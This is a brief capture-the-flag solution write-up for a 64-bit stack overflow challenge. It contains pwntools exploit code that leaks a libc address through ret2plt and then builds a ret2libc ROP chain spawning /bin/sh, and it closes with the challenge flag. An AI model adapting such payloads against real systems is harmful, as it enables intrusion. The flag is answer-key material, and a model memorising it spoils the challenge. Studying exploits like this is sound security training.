 # Proof of Concept

## TL;DR

- Get libc offset from ret2plt (basically [this](https://ir0nstone.gitbook.io/notes/binexp/stack/aslr/ret2plt-aslr-bypass) but 64-bit)
```py
offset = 40
pop_rdi = 0x000000000040117a
ret = 0x000000000040101a

leak_payload = flat(
    cyclic(offset, n=8),
    pop_rdi,
    exe.got.puts,
    exe.plt.puts,
    exe.sym['_start']
)
io.sendlineafter(b'gets\n', leak_payload)
puts_leak = u64(io.recv(6).ljust(8, b'\x00')) - libc.symbols['puts']
log.success(f'puts leak: {hex(puts_leak)}')
```
- Do classic ret2libc on 64 bit binary after offset
```py
system = libc.symbols['system'] + puts_leak
binsh = next(libc.search(b'/bin/sh')) + puts_leak

payload = flat(
    cyclic(offset, n=8),
    pop_rdi,
    binsh,
    ret,
    system
)
io.sendlineafter(b'gets\n', payload)
```

### Flag: 
> HCS{41_but_i_G0T_41_g04lzz}